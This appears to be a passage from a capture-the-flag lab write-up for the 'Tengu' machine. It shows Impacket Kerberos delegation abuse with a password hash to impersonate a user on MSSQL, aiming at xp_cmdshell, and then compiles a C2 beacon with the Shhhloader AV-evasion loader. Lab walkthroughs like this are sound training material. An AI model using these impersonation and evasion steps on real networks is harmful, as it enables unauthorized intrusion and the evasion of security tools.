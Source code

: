 we got xp_cmdshell as admin so lets get shell here with xp_cmdshell

    ➜  Tengu proxychains -q python3 /opt/impacket/examples/getST.py -spn 'MSSQLSvc/sql.tengu.vl' -dc-ip DC.tengu.vl -impersonate 'T1_M.WINTERS' -hashes :9fac1a6c91b365f30fa517fac842155a 'tengu.vl/gmsa01' 
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [-] CCache file is not found. Skipping...
    [*] Getting TGT for user
    [*] Impersonating T1_M.WINTERS
    [*] Requesting S4U2self
    [*] Requesting S4U2Proxy
    [*] Saving ticket in T1_M.WINTERS@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache
    ➜  Tengu export KRB5CCNAME=T1_M.WINTERS@MSSQLSvc_sql.tengu.vl@TENGU.VL.ccache 
    ➜  Tengu vim /etc/hosts
    ➜  Tengu proxychains -q python3 /opt/impacket/examples/mssqlclient.py -k sql.tengu.vl
    Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

    [*] Encryption required, switching to TLS
    [*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
    [*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
    [*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
    [*] INFO(SQL): Line 1: Changed database context to 'master'.
    [*] INFO(SQL): Line 1: Changed language setting to us_english.
    [*] ACK: Result: 1 - Microsoft SQL Server (160 3232) 
    [!] Press help for extra shell commands
    SQL (TENGU\t1_m.winters  dbo@master)> 

im gonna upload here my beacon then im gonna use very simple way

[Shhhloader](https://github.com/icyguider/Shhhloader)

lets upload it

    (venv) ➜  Shhhloader git:(main) ✗ python3 Shhhloader.py beacon_x64.bin -o a.exe
    ┳┻|
    ┻┳|
    ┳┻|
    ┻┳|
    ┳┻| _
    ┻┳| •.•)  - Shhhhh, AV might hear us! 
    ┳┻|⊂ﾉ   
    ┻┳|
    [+] ICYGUIDER'S CUSTOM SYSCALL SHELLCODE LOADER
    [+] Using explorer.exe for QueueUserAPC injection
    [+] Using GetSyscallStub for syscalls
    [+] Attemping to use non-privileged explorer.exe for PPID Spoofing
    [+] Using sleep technique for sandbox evasion
    [+] Randomizing syscall names
    [+] Saved new stub to stub.cpp
    [+] Compiling new stub...
    [!] a.exe has been compiled successfully!

and we get our beacon here
